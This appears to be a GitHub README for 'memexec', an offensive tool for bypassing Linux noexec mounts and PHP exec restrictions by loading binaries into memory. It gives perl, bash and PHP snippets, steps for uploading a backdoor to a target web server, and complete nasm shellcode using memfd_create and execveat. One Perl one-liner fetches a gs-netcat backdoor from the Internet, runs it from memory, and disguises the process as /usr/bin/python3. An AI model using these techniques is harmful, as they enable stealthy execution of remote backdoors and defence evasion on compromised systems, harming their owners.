 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root user
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html) to load a binary from a noexec-partition (or directly from the Internet).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) for more....

`TIME_STYLE` and `-lah` are used as an example to pass through environment parameters and command line options. 

### nasm example:
```sh
nasm -f elf64 memexec-bash.nasm -o memexec-bash.o
ld memexec-bash.o -o memexec-bash
cat /bin/ls | ./memexec-bash -- /bin/ls
```

### PERL example:
```sh
source memexec-perl.sh
cat /bin/ls | TIME_STYLE=+%s memexec -lah
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

### BASH example (by [@messede-degod](https://github.com/messede-degod)):
```sh
source memexec-bash.sh
cat /bin/ls | TIME_STYLE=+%s memexec -- -lah
```

### The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` to execute `egg` and bypassing noexec restrictions

(This is my way of saying "hey. how are to?" to my old [team-teso](https://en.wikipedia.org/wiki/TESO_(Austrian_hacker_group)) colleague and long time PHP developer [@i0nic](https://x.com/i0n1c))

---

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec` or there is no writeable directory (hides as process name `/usr/bin/python3`):
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilD -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}"/usr/bin/python3"' #,@ARGV' -- "$@"
```
---

For the addicts, here is the nasm of the shellcode (memfd_create, copy loop & execveat):
```nasm
; nasm -felf64 memexec.nasm && ld memexec.o &&  ./a.out

global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 3: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 1: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00        ; an empty string
    mov     rsi, rsp    ; arg 2: path (empty string)
    mov     rdx, rsp    ; arg 3: ARGV points to empty string
    xor     rcx, rcx    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    xor     r9, r9      ; arg 6: must be clean
    xor     r10, r10    ; arg 7: must be clean
    syscall

    mov     rax, 60
    xor     rdi, rdi
    syscall
```
